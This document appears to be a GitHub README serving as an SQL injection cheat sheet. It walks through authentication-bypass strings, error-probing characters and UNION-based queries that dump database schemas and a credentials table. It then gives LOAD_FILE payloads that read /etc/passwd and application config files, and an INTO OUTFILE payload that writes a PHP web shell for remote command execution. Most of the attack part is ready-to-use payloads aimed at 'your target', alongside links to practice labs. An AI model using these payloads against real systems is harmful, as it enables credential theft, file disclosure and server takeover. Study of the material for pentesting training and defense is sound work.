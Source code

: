 # SQL Injection
![sql-injection](https://user-images.githubusercontent.com/79256105/172219613-c1e688dc-d2fc-4a1c-9e56-35cb868ae5f2.png)

# What is SQL Injection?
SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
# Types of SQL Injection
![sql](https://user-images.githubusercontent.com/79256105/175160165-af1189b5-f22c-41fa-8d8e-7e4e1d14da57.png)

## Authentication Bypass(Subverting Query Logic)
Subverting Query Login used to bypass authenticatio of login page . In this technique, hacker used true statement **' or 1=1 / ' or '1'='1'-- -** to bypass application query or user credentials matching.
Some True Statement Payload :
                   
                   ' or '1' = '1
                   ' or '1' = '1’
                   ' or '1' = '1 -- -
                   ' or '1' = '1 #                         
##### 👁️‍🗨️ For More Payload check payload all things github repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
## In-Band SQL Injection
In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as In-band SQL injection, and it has two types: **Union Based and Error Based.**

##### Error Based :
                           Get the PHP or SQL errors in the front-end
##### Union Based:
                          Get Fixed Column number and Uses Union query to get database information

## How to Indentify Error Based SQL Injection
#### Step1:
           Find out injection parameter using fuzzing tools or manually
#### Step2:
           Use Given below payoad

         Payload 	URL Encoded
              ' 	%27
              " 	%22
              # 	%23
              ; 	%3B
              ) 	%29
If we get sql error , there has error based SQL injection and then, Use SQL Map for Automatic SQL Injection Pen-Testing / Manually Testing
##### 👁️‍🗨️ For More Payload check payload all things github repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
## How to identify Union Base SQL Injection
#### Step1:
          find out actual column number using order by  / order by -- - operation
#### Step2:
            use actual column number with union operation
            example: ‘ union select 1,2,3-- - 
#### Step3:
           check which column number show in your target website
#### Step4:
           use union base payload in perfect column number to exploit database

## Method for dumping data from database using Uninon SQL Injection

##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      ' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

## Read Data/Sensitive files using Union SQL Injection
     SELECT USER()
     SELECT CURRENT_USER()
     SELECT user from mysql.user

#### Step 1:Privilege Check

      SELECT super_priv FROM mysql.user
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
      ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#### Step 2:Load File
Now that we know we have enough privileges to read local system files, let us do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:

      SELECT LOAD_FILE('/etc/passwd');
      
      Example:
      ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

#### Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

      ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
      ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
### Write Files Using Union SQL Injection or RCE Using SQL Injection
Example

      ' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
Web Shell Upload:

      ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
      
Basic PHP Web Shell:

      <?php system($_REQUEST[cmd]); ?>
      
OR 
      
      <?php system($_GET['cmd']); ?>
 
### For RCE , Call Uploaded Web shell 

Example :
          
          url/upload_file.php?parameter=commnad

          http://cyberteach360/shell.php?cmd=id
          

## Practicing and Learning Resources:

#### Try Hack Me :

      https://tryhackme.com/room/sqlinjectionlm
      https://tryhackme.com/room/sqhell

#### Hack The Box Academy :

      https://academy.hackthebox.com/module/33/section/177

#### Port Swigger:         
     https://portswigger.net/web-security/sql-injection
     
